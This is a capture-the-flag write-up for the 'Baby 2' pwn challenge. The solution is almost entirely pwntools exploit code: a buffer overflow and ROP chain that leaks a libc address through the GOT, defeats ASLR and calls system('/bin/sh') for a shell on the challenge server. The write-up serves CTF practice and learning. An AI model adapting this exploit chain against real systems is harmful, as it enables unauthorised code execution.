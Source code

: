 # Baby 2

Categories: pwn baby pwned! <br/>
Description: When Swordfish came out, these were considered some state of the art techniques. Let's see if you have what it takes. <br/>
File: [baby2](baby2), [libc.so.6](libc.so.6)

## Solution

This time the binary does not contains a `win` function. Assuming ASLR is enabled on the remote target, I first leaked a
known address and calculated the offset.

```
from pwn import *

isRemote = args['REMOTE']

binary = './baby2'
localElf = '/usr/lib/libc.so.6'
remoteElf = './libc.so.6'

context.binary = binary

elf = ELF(binary)
libc = ELF(remoteElf if isRemote else localElf)

p = remote('baby-01.pwn.beer', 10002) if isRemote else elf.process()
p.recvuntil('input: ')

r = ROP(elf)
r.puts(elf.got['gets'])
r.main()

p.sendline('A' * 24 + str(r))

leak = p.recvuntil('input: ')
leaked_gets = u64(leak[:6].ljust(8, '\x00'))
libc.address = leaked_gets - libc.sym['gets']
```

Now I could simply call `system` with the correct parameter:

```python
r = ROP(libc)
r.raw(r.find_gadget(['ret']).address) # align the stack
r.system(next(libc.search('/bin/sh')))
p.sendline('A' * 24 + str(r))

p.interactive()
```

The flag was `sctf{An0tH3r_S1lLy_L1Ttl3_R0P}`.
